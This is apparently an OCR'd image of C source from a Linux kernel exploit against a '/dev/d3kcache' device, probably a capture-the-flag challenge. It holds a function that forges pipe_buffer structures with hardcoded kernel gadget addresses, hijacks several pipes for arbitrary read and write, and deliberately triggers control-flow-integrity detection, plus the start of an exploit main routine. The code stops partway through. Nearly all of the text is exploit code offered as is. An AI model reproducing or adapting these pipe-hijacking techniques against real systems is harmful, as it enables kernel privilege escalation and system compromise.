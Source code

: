 ```c

/**
 * Just for testing CFI's availability :)
*/
void trigger_control_flow_integrity_detection(void)
{
    size_t buf[0x1000];
    struct pipe_buffer *pbuf = (void*) ((size_t)buf + TRD_PIPE_BUF_SZ);
    struct pipe_buf_operations *ops, *ops_addr;

    ops_addr = (struct pipe_buf_operations*) 
                 (((size_t) info_pipe_buf.page - vmemmap_base) / 0x40 * 0x1000);
    ops_addr = (struct pipe_buf_operations*)((size_t)ops_addr+page_offset_base);

    /* two random gadget :) */
    ops = (struct pipe_buf_operations*) buf;
    ops->confirm = (void*)(0xffffffff81a78568 + kernel_offset);
    ops->release = (void*)(0xffffffff816196e6 + kernel_offset);

    for (int i = 0; i < 10; i++) {
        pbuf->ops = ops_addr;
        pbuf = (struct pipe_buffer *)((size_t) pbuf + TRD_PIPE_BUF_SZ);
    }

    evil_2nd_buf.page = info_pipe_buf.page;
    evil_2nd_buf.offset = 0;
    evil_2nd_buf.len = 0;

    /* hijack the 4th pipe pointing to 2nd pipe */
    write(pipe_fd[self_3rd_pipe_pid][1],&evil_4th_buf,sizeof(evil_4th_buf));

    /* hijack the 2nd pipe for arbitrary read, 3rd pipe point to 4th pipe */
    write(pipe_fd[self_4th_pipe_pid][1],&evil_2nd_buf,sizeof(evil_2nd_buf));
    write(pipe_fd[self_4th_pipe_pid][1], 
          temp_zero_buf, 
          TRD_PIPE_BUF_SZ - sizeof(evil_2nd_buf));
        
    /* hijack the 3rd pipe to point to 4th pipe */
    write(pipe_fd[self_4th_pipe_pid][1],&evil_3rd_buf,sizeof(evil_3rd_buf));

    /* write data into dst page */
    write(pipe_fd[self_2nd_pipe_pid][1], buf, 0xf00); 

    /* trigger CFI... */
    puts("[=] triggering CFI's detection...\n");
    sleep(5);
    close(pipe_fd[self_2nd_pipe_pid][0]);
    close(pipe_fd[self_2nd_pipe_pid][1]);
}

int main(int argc, char **argv, char **envp)
{
    /**
     * Step.O - fundamental works
     */

    save_status();

    /* bind core to 0 */
    bind_core(0);

    /* dev file */
    dev_fd = open("/dev/d3kcache", O_RDWR);
```